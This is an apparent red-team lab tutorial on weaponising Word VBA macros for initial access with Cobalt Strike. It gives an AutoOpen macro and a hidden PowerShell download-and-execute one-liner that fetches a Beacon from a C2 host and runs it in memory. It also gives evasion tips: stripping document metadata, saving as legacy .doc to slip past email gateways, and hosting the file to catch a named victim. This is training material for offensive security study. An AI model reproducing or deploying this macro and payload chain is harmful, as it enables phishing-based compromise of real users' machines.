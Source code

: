 ```yaml
---
description: 09/01/2025
---
```


# ✅ Visual Basic For Applications (VBA) Macros

## Introduction

VBA is an implementation of Visual Basic that is very widely used within the Microsoft ecosystem (Microsoft applications included).&#x20;

#### Why does it exist?

It is often used to enhance functionality in Word and Excel for data processing.

The prevalence of macros in the commercial world is a double-edged sword when it comes to leveraging macros for malicious purposes.

#### Not inherently a red flag, but...

One one hand, the presence of a document with embedded macros is not necessarily suspicious.

However, since they are used maliciously by threat actors, they are also given more scrutiny both from technical products (e.g. web/email gateways) and in security awareness training, so most people steer away from them.

## Creating your own VBA Macro (Benign)

**You can create your own VBA Macro within a Word document by going to:**&#x20;

**View -> Macros -> View Macros**.

<figure><img src="../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

We can then place the following code for the macro in order to trigger automatically opening something such as `notepad.exe` when the document is opened using the name `AutoOpen`:

```visual-basic
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub
```

<figure><img src="../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

`wscript` is the Windows Script Host, which is designed for automation. The "shell" method provides the ability to execute OS commands.

To test the above code, we can use the play/pause/stop buttons.

## Creating a Malicious Macro

Now that we know how to create a VBA macro for Word, we need to replace `notepad` with a Beacon payload instead.

The easiest to leverage is the PowerShell payload within Cobalt Strike.&#x20;

Go to **Attacks** -> **Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener.

The URI path can be anything, but I will keep it as `/a`.&#x20;

<figure><img src="../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

This will generate a PowerShell payload and host it on the Team Server so that it can be _<mark style="color:yellow;">**downloaded over HTTP and executed in memory**</mark>_.&#x20;

After selecting _**Launch**_, Cobalt Strike will generate the PowerShell one-liner that will do just that.

<figure><img src="../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

**Simply copy/paste this into the VBA Macro editor:**

```
Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""
```

**Now, replace `notepad` with a Beacon payload instead:**

<figure><img src="../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
:bulb:The `URI` PATH can be anything, but I kept it as /a or /b, it doesn't matter.
{% endhint %}

#### OPSEC Consideration

To prepare the document for delivery, go to _**File > Info > Inspect Document > Inspect Document**_, which will bring up the Document Inspector. Click _Inspect_ and then _Remove All_ next to _Document Properties and Personal Information_.  This is to prevent the username on your system being embedded in the document.

**Once complete, you should see the following:**

<figure><img src="../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

### Preparing the Document and Attaching Malicious Macro

Next, go to _**File > Save As**_ and save it to a location of your choice.  Give it any filename, but in the _Save as type_ dropdown, change the format from `.docx` to _Word 97-2003 (`.doc`)_. &#x20;

We do this because you can't save macros inside a `.docx` and there's a stigma around the macro-enabled `.docm` extension (e.g. the thumbnail icon has a huge `!` and some web/email gateway block them entirely). &#x20;

I find that this legacy `.doc` extension is the best compromise.

{% hint style="info" %}
:bulb:`.docm` works just fine too, but `.doc` attracts less attention.
{% endhint %}

<figure><img src="../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

### Uploading to our C2

Now that our document is now housing our embedded macro, we need to upload this file to the Team Server.

We can do this by going to **Site Management -> Host File (then select the document)**.

**Your configuration should look something like this:**

<figure><img src="../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

## Awaiting for Our Victim to Open the Maliciously-Embedded Macro Word Document

Let's target our next victim, `bfarmer`.

<figure><img src="../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

Upon waiting for Bob to open the file, Edge will automatically download the document. Since the file is being downloaded via a browser, it will have the MOTW, so when it is first opened, it will first be in Protected View.

<figure><img src="../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

Once opened, we now have Bob as a new victim!
